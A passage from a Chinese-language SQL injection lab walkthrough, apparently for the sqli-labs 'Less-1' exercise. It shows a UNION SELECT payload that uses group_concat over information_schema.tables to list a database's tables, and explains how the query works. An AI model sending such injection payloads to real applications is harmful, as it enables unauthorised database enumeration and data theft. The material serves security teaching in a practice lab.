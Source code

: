 ![Less-1_15](./img/Less-1_15.png)



4. 注入<code>?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+</code>爆数据表，

~~~ shell
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

information_schema.tables表示该数据库下的tables表，点表示下一级;where后面是条件，group_concat()是将查询到结果连接起来;如果不用group_concat查询到的只有user;
该语句的意思是查询information_schema数据库下的tables表里面且table_schema字段内容是security的所有table_name的内容，也即下面表格user和passwd;
~~~
